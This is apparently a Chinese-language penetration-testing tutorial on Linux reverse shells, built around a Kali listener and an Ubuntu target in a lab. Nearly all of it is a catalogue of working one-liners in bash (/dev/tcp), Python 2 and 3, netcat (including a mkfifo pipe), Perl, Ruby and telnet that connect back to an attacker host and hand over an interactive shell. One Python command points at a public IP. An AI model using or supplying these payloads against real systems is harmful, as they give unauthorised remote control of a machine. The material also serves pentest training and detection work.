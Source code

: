 # 简介

LInux反弹Shell(Reveser Shell), 也可以称为反向Shell, 由被控制端主动向控制端发送请求建立通讯, 随后将执行命令的结果输出到控制端, 本质上是网络概念的客户端与服务端的角色反转

本篇文章介绍LINUX反弹Shell的多种姿势, 在真实的渗透环境中, 根据客户端存在哪些命令的实际情况, 来采取相应的反弹shell姿势

<br>

# 实验环境

| 操作系统             | IP地址         |
| -------------------- | -------------- |
| Kali Linux(服务端)   | 192.168.47.155 |
| Ununtu Linux(客户端) | 192.168.47.151 |

<br>

# 服务端监听端口

服务端kali监听端口

```
nc -lvp 4444
```

![image-20221126161342759](Linux反弹shell/image-20221126161342759.png)	

<br>

# 客户端反弹shell

## 1.bash反弹

```
bash -i >& /dev/tcp/192.168.47.155/4444 0>&1
```

> - `bash -i` 表示在本地打开一个交互式BashSehll
> - `/dev/tcp`是Linux一个特殊设备, 打开该文件相当于建立socket连接, 读写该文件相当于在socket连接中传输数据
> - `0>&1`将标准输入重定向至标准输出
>
> `bash -i >& /dev/tcp/192.168.47.155/4444`表示将bash的标准输出和标准错误输出发送给远程服务器的4444端口。我们只要客户端主机输入命令, 命令执行的结果以及错误提示都会发送给远程服务器

![image-20221126173912240](Linux反弹shell/image-20221126173912240.png)	

![image-20221126173930758](Linux反弹shell/image-20221126173930758.png)	

<br>		

## 2.python反弹

### python3

```
python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('123.6.44.67',9090));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

![image-20221126215634494](Linux反弹shell/image-20221126215634494.png)	

![image-20221126215649332](Linux反弹shell/image-20221126215649332.png)	

<br>

### python2

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.47.155",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20221126222452893](Linux反弹shell/image-20221126222452893.png)	

![image-20221126222459319](Linux反弹shell/image-20221126222459319.png)	

<br>

## 3.nc反弹shell

```
nc 192.168.47.155 4444 -e /bin/bash
```

> -e后面接的参数表示在创建连接后执行的程序

![image-20221126220706747](Linux反弹shell/image-20221126220706747.png)	

![image-20221126220642719](Linux反弹shell/image-20221126220642719.png)	

<br>

有些老版本的nc不支持`-e`参数, 可使用如下命令进行反弹

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.47.155 4444 >/tmp/f
```

![image-20221126221325835](Linux反弹shell/image-20221126221325835.png)	

![image-20221126221348830](Linux反弹shell/image-20221126221348830.png)	

<br>

## 4.perl反弹

### 依赖`/bin/sh`

```
perl -e 'use Socket;$i="192.168.47.155";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image-20221126221711114](Linux反弹shell/image-20221126221711114.png)	

![image-20221126222013052](Linux反弹shell/image-20221126222013052.png)	

<br>	

### 不依赖`/bin/sh`	

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.47.155:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

![image-20221126222110406](Linux反弹shell/image-20221126222110406.png)	

![image-20221126222126949](Linux反弹shell/image-20221126222126949.png)	

<br>

## 5.ruby反弹

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.47.155","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

![image-20221126232240240](Linux反弹shell/image-20221126232240240.png)	

![image-20221126232254038](Linux反弹shell/image-20221126232254038.png)

<br>

## 6.telnet反弹

```
mknod backpipe p && telnet 192.168.47.155 4444 0<backpipe | /bin/bash 1>backpipe
```

![image-20221127001032000](Linux反弹shell/image-20221127001032000.png)	

![image-20221127001043908](Linux反弹shell/image-20221127001043908.png)		

